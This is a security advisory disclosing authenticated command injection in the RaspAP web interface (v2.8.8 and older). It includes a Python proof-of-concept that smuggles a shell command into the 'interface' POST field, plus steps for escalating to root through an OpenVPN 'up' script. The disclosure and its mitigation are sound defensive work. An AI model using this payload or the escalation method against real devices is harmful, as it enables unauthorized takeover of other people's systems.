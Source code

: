 ```yaml
---
pagetitle: Security advisory

...
```


## Security advisory
Multiple command injection vulnerabilities are present in the RaspAP web interface. They allow an authenticated user to execute arbitrary OS commands with the privileges of the web server.

### Affected products

RaspAP v2.8.8 and older


### Steps to reproduce

1. Obtain credentials for RaspAP
2. Configure and execute the following script

```python
#!/usr/bin/env python3

import re
import requests

TARGET="10.3.141.1"
CREDS="admin:secret"
URL=f"http://{CREDS}@{TARGET}/hostapd_conf"

sess = requests.Session()

# Get a valid CSRF token
doc = sess.get(URL).text.replace("\n", "")
csrf = re.match('.*name="csrf_token" value="([^"]+)".*', doc).group(1)

print(csrf)

res = sess.post(URL,
                data={
                   "csrf_token": csrf,
                   "txpower": "auto",

                   # Command payload is here:
                   "interface": ";uptime > /tmp/hax; echo",
                 }
                )

if res.status_code != 200:
  print("Failed to execute command")
```

3. Observe that the file `/tmp/hax` has been created on the raspi, and contains the output of `uptime`.

### Cause
There are two almost identical instances of the vulnerability, at [hostapd.php:103](https://github.com/RaspAP/raspap-webgui/blob/dda1fe6bbb92cffae7a53b516108650bfbb76cb2/includes/hostapd.php#L103) and [hostapd.php:108](https://github.com/RaspAP/raspap-webgui/blob/dda1fe6bbb92cffae7a53b516108650bfbb76cb2/includes/hostapd.php#L108). In both instances, an unsanitized POST variable is fed into a command executed using `exec()`.


### Impact

An authenticated user is able to execute arbitrary commands as `www-data`.

In the default RaspAP configuration, this can be leveraged to gain root access by exploiting two of the configured `sudo` permissions; overwrite the openvpn client configuration to set the following:

```
script-security 2
up /tmp/payload.sh
```

and establish an OpenVPN connection. `/tmp/payload.sh` will be executed with root privileges.

### Proposed Mitigation
Apply sanitization to the `txpower` and `interface` parameters, and use the PHP built-in `escapeshellarg()` before passing them to `exec()`.


### History
- 2023-03-29: Initial report removed
- 2023-03-29: [Fix](https://github.com/RaspAP/raspap-webgui/pull/1322) applied
- 2023-03-28: Initial report filed
